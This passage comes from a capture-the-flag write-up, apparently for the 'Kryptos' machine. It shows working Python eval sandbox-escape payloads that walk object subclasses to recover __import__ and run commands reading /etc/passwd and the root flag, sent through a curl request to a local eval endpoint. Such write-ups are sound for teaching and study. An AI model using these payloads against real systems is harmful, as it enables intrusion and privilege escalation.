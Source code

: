 I rewrote that code in order to make it work with `eval` as follows:

```python
eval("[c()._module.__builtins__ for c in {}.__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]['__import__']('os').system('cat /etc/passwd')", {'__builtins__': None })
```

Unfortunately, `os.system` does not give us any direct output. Luckily, `suprocess.check_output` does exactly that. The following expression enabled me to finally read the root flag:

```python
eval("[c()._module.__builtins__ for c in {}.__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]['__import__']('subprocess').check_output(['cat', '/root/root.txt'])", {'__builtins__': None })
```

Submitting a curl request with a correctly signed payload produces the desired output:

```bash
rijndael@kryptos:~$ curl http://localhost:81/eval -H "Content-Type: application/json" -d @/tmp/.req
{
  "response": {
    "Expression": "[c()._module.__builtins__ for c in {}.__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]['__import__']('subprocess').check_output(['cat', '/root/root.txt'])",
    "Result": "b'****************************7c6e\\n'"
  }
}
```
